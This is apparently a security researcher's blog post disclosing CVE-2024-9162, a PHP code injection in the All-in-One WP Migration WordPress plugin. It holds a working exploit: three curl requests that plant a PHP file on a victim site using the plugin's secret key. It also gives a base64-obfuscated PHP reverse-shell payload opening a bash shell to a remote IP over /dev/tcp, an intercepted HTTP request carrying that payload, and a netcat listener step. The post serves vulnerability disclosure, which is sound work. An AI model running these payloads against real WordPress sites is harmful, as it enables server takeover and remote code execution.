 +++
title = 'All-in-One WP Migration and Backup <= 7.86 - Authenticated (Administrator+) Arbitrary PHP Code Injection'
date = 2024-10-27T05:18:12+00:00
hideToc = true
tags = ["CVE", "WordPress", "All-in-One WP Migration"]
+++

Around the time Def Con was happening this year I was sitting at home feeling left out. That made me feel hacky, but I don't get the same joy from CTFs at the moment that I used to. So, I decided to start hunting for CVEs. That lead to finding [CVE-2024-9162](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/all-in-one-wp-migration/all-in-one-wp-migration-and-backup-786-authenticated-administrator-arbitrary-php-code-injection), which was just released today, along with the idea for a larger project that has resulted in a few more vulnerabilities yet to be disclosed. 

### CVE-2024-9162

The [All-in-One WP Migration plugin for WordPress](https://wordpress.org/plugins/all-in-one-wp-migration/) is vulnerable to arbitrary PHP Code Injection due to missing file type validation during the export in all versions up to, and including, 7.86. This makes it possible for authenticated attackers, with Administrator-level access and above, to create an export file with the .php extension on the affected site's server, adding an arbitrary PHP code to it, which may make remote code execution possible.

### TL;DR Exploits
* [CVE-2024-9162.sh](https://github.com/d0n601/CVE-2024-9162/blob/main/CVE-2024-9162.sh)
* [CVE-2024-9162.py](https://github.com/d0n601/CVE-2024-9162/blob/main/CVE-2024-9162.py)

### Details
The `ai1wm_secret_key` is a 12 character alphanumeric string created when the plugin is initialized. The key is **never rotated**, **does not expire**, and is **stored plain text** in the `wp_options` table.

```sql
mysql> SELECT option_name,option_value FROM wp_options WHERE option_name='ai1wm_secret_key';
+------------------+--------------+
| option_name      | option_value |
+------------------+--------------+
| ai1wm_secret_key | PwrqqK3UHQJo |
+------------------+--------------+
1 row in set (0.00 sec)
```

### Basic Proof of Concept:
This will create a php file containing a call to `phpinfo();`, which can be replaced with a better payload as seen in the manual reproduction section. Notice there is no authorization required beyond the secret key parameter. 
```bash
VICTIM_URL=https://wordpress.hacker
XFILE_NAME=lolz.php
XDIRECTORY_NAME=testauto
SECRET_KEY=PwrqqK3UHQJo

PRIORITY_INT=30
curl --path-as-is -i -s -k -X $'POST' \
    --data-binary $"\x0d\x0a\x0d\x0a\x0d\x0aaction=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+phpinfo()%3B+%3F%3E&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=$XDIRECTORY_NAME&file=1&secret_key=$SECRET_KEY&priority=$PRIORITY_INT&archive=$XFILE_NAME" \
    $"$VICTIM_URL/wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1"

PRIORITY_INT=50
curl --path-as-is -i -s -k -X $'POST' \
    --data-binary $"\x0d\x0a\x0d\x0a\x0d\x0aaction=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+phpinfo()%3B+%3F%3E&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=$XDIRECTORY_NAME&file=1&secret_key=$SECRET_KEY&priority=$PRIORITY_INT&archive=$XFILE_NAME" \
    $"$VICTIM_URL/wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1"

PRIORITY_INT=60
curl --path-as-is -i -s -k -X $'POST' \
    --data-binary $"\x0d\x0a\x0d\x0a\x0d\x0aaction=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+phpinfo()%3B+%3F%3E&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=$XDIRECTORY_NAME&file=1&secret_key=$SECRET_KEY&priority=$PRIORITY_INT&archive=$XFILE_NAME" \
    $"$VICTIM_URL/wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1"
```
![Screenshot from 2024-08-13 15-36-42](/posts/images/CVE-2024-9162/1.png)


### Manually To Reproduce:
It should be noted that the `php` file created via these steps will first appear in `wp-content/plugins/all-in-one-wp-migration/storage/EXPLOITDIR/EXPLOITFILE.php` before being deleted by the script and moved to `wp-content/ai1wm-backups/reverse_shell.php`. 

* Log in, Click all in one WP migration export to access the "Export Site" [page](https://wordpress.hacker/wp-admin/admin.php?page=ai1wm_export).
  * ![Screenshot from 2024-08-12 15-40-48](/posts/images/CVE-2024-9162/2.png)

*  In the **Find * Replace with** `<another-text>` **in the database**.
  * Input `*` into the *Find* box.
  * Input your crafted php payload into  into the *Replae With* box (`phpinfo();`, web shell, etc).
    * Reverse Shell Example: 
    ```php
    <?php eval( base64_decode('ZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTkyLjE2OC4xMDAuODYvNDQ0NCAwPiYxJyAiKTs=')); ?>
    ```
    * This will decode to 
    ```php
    exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.100.86/4444 0>&1' ");
    ```
  *  ![Screenshot from 2024-08-12 15-38-01](/posts/images/CVE-2024-9162/3.png)
* Setup Burp or similar tool and begin to proxy the traffic, then click the green "Export To -> File" option.
  *  ![Screenshot from 2024-08-12 15-42-30](/posts/images/CVE-2024-9162/4.png)
  *  ![Screenshot from 2024-08-12 15-39-38](/posts/images/CVE-2024-9162/5.png)
* Forward the first request: `POST /wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1 HTTP/1.1`, without manipulation.
* Forward: `GET /wp-admin/admin-ajax.php?action=ai1wm_status&ai1wm_import=1&secret_key=OYXj1AIdQUnc&_=1723495770325 HTTP/2`.
* Intercepting the request to `POST /wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1 HTTP/2`
   * Modify the `archive` parameter to whatever name you like, and the `.php` extension, and then forward the request.
   *  ```
        POST /wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1 HTTP/2
        Host: wordpress.hacker
        Cookie: wordpress_sec_1e8abd3ff1d2f462f071b6ee87f18dce=admin%7C1723667674%7Czq81SUmQ7zq0jft2M2D19aFUOZDjhqND0rKqJp0XIrb%7Cc65dd152f0c184235df35d5dfa28c50624b9f9a2fb01efb5077b150df76d286f; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; wordpress_logged_in_1e8abd3ff1d2f462f071b6ee87f18dce=admin%7C1723667674%7Czq81SUmQ7zq0jft2M2D19aFUOZDjhqND0rKqJp0XIrb%7C5c992aef75e3896a0909b9d480ae9e6505d89428c6975a490c30ce5b791c6bfe; wp-settings-time-1=1723500701
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
        Accept: application/json, text/javascript, */*; q=0.01
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate, br
        Referer: https://wordpress.hacker/wp-admin/admin.php?page=ai1wm_export
        Content-Type: application/x-www-form-urlencoded; charset=UTF-8
        X-Requested-With: XMLHttpRequest
        Content-Length: 883
        Origin: https://wordpress.hacker
        Dnt: 1
        Sec-Gpc: 1
        Sec-Fetch-Dest: empty
        Sec-Fetch-Mode: cors
        Sec-Fetch-Site: same-origin
        Te: trailers
              action=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+eval(+base64_decode('ZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTkyLjE2OC4xMDAuODYvNDQ0NCAwPiYxJyAiKTs%3D'))%3B+%3F%3E&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=1j5v4ss1ls45&file=1&secret_key=OYXj1AIdQUnc&priority=10&archive=reverse_shell.php
       ```
    * ![Screenshot from 2024-08-12](/posts/images/CVE-2024-9162/fivee.png)
    * Turn off interception and let all other requests flow through until the job is completed and a download button is presented on the screen.
      * ![Screenshot from 2024-08-12 15-30-06](/posts/images/CVE-2024-9162/6.png)
    * Notice that the link to the downoad is a link to a php file containing the payload `https://wordpress.hacker/wp-content/ai1wm-backups/reverse_shell.php`.
    * Fire up a netcat listener on an attacking machine to catch the reverse shell `nc -lnvp 4444`.
    * Click the download button and catch the reverse shell.
      *   ![Screenshot from 2024-08-12 15-34-27](/posts/images/CVE-2024-9162/7.png)



